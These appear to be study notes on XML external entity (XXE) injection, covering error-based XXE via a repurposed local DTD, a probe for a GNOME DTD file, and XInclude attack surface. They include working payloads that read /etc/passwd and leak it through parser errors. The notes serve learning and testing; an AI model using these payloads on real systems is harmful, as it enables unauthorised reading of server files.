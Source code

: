 ```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
  <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///noexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```

`&#x25` -> `%`  
`&#x26` -> `&`  
`&#x27` -> `'`

1. Defines an XML parameter entity called `local_dtd` containing the contents of the external DTD file that exists on the server filesystem
2. Redefines the XML parameter entity called `custom_entity` which is already defined in the external DTD file
3. Uses the `local_dtd` entity, and external DTD is interpreted including the redefined value of the `custom_entity` entity
4. Desired error message will get.

> How to Locate an existing DTD file to repurpose

- linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`
- test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing

```xml
<!DOCTYPE foo[
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  %local_dtd;
]>
```

## Finding hidden attack surface for XXE injection

- attack surface for XXE injection is obvious in many cases
- in some cases, the attack surface is less visible, but looking in the right places, it can be found XXE attack surface in requests that do not contain any XML

### XInclude attacks

- some applications receive client-submitted data, embed it on the server-side into an XML document and then parse the document
- eg - SOAP request
- you can't carry out a classic XXE attack as you can't define or modify the `DOCTYPE` element
- but you might be able to use `XInclude`
- `XInclude` - part of XML specification that allows an XML document to be built from sub-documents
- you can place an XInclude attack within any data value in an XML document, and the attack can be performed in situations where you can only control a single item of data that is placed into a server-side XML document
